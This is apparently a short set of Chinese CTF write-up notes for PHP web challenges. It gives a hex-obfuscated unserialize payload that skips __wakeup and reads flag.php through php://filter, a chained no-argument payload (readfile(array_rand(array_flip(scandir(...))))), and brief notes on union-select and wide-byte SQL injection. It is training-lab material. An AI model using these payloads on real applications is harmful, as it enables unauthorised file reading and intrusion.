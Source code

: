 ```php
	echo $e->Filename;
}
else{
	$exp = new FileReader();
}


?>
```

令属性数量与实际数量不同来绕过`__wakeup`

利用16进制绕过flag的限制

`O:10:"FileReader":4:{s:8:"Filename";S:71:"\70\68\70\3a\2f\2f\66\69\6c\74\65\72\2f\72\65\61\64\3d\63\6f\6e\76\65\72\74\2e\62\61\73\65\36\34\2d\65\6e\63\6f\64\65\2f\72\65\73\6f\75\72\63\65\3d\2f\76\61\72\2f\77\77\77\2f\68\74\6d\6c\2f\66\6c\61\67\2e\70\68\70";s:5:"start";i:0;s:10:"max_length";i:10000;}`



## sql1



union select 设置自己的密码拿到flag





## 禁止套娃



和bytectf2019有点类似 https://blog.zeddyu.info/2019/09/17/bytectf2019/ 





`var_dump(scandir(chr(time())));`



` array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" } `

chr,random_bytes

翻数组相关的函数找到array_rand,但是遗憾的是返回的是键名,如果我们能交换键名和值就可以拿到flag.php了,再找一找发现array_filp

最后的payload

`var_dump(readfile(array_rand(array_flip(scandir(chr(time()))))));`



##  BabySqliv2.0

提到中文,宽字节注入绕过引号
